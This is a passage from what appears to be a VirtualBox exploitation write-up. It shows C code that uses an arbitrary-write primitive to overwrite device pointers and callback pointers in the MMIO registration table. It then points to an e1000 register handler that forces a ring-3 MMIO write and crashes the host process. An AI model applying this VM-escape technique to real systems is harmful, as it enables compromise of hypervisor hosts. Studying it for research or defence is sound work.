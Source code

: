 So there are some pointers in the structure, such as `pfnWriteCallback` and `pfnReadCallback`. Remember that this is MMIO registration table, meaning that a MMIO read/write handler in ring-3 might trigger a lookup into this table, and invoke `pfnWriteCallback` / `pfnReadCallback`. Here I just overwrite the following pointers in the table:

* `pDevIns`
* `pfnWriteCallback`
* `pfnReadCallback`

```c

/*
 * According to debugger, there are 5 entries in the table
 * Each entry represent a device
 * APIC, I/O APIC, VGA, E1000, AHCI
 * Overwrite them all
 * */

for (i = 0 ; i < 5 ; i++) {
    size_t devin_off = (88 * i) + 0x18; // pDevIns
    size_t write_cb_off = (88 * i) + 0x20; // pfnWriteCallback
    size_t read_cb_off = (88 * i) + 0x28; // pfnReadCallback
    arb_write(inst, code, (sll)(r0Map + devin_off), 0x1234);
    arb_write(inst, code, (sll)(r0Map + write_cb_off), 0x1234);
    arb_write(inst, code, (sll)(r0Map + read_cb_off), 0x1234);
}
```
Notice that it best to overwrite the pointer into a canonical address. A non-canonical may not trigger SEGV successfully.

Now we overwrite those pointers, all we need to do left is to trigger the SEGV in ring-3. This can be done by triggering an MMIO ring-3 handler. By searching the keyword "VINF_IOM_R3_MMIO_WRITE", we can find a suitable handler in e1000 : 

```c
// src/VBox/Devices/Network/DevE1000.cpp

/**
 * Write handler for EEPROM/Flash Control/Data register.
 *
 * Handles EEPROM access requests; forwards writes to EEPROM device if access has been granted.
 *
 * @param   pThis       The device state structure.
 * @param   offset      Register offset in memory-mapped frame.
 * @param   index       Register index in register array.
 * @param   value       The value to store.
 * @param   mask        Used to implement partial writes (8 and 16-bit).
 * @thread  EMT
 */
static int e1kRegWriteEECD(PPDMDEVINS pDevIns, PE1KSTATE pThis, uint32_t offset, uint32_t index, uint32_t value)
{
    RT_NOREF(pDevIns, offset, index);
#ifdef IN_RING3
    //...............omitted......................... 
    return VINF_SUCCESS;
#else /* !IN_RING3 */
    RT_NOREF(pThis, value);
    return VINF_IOM_R3_MMIO_WRITE; // <-- HERE
#endif /* !IN_RING3 */
}
```
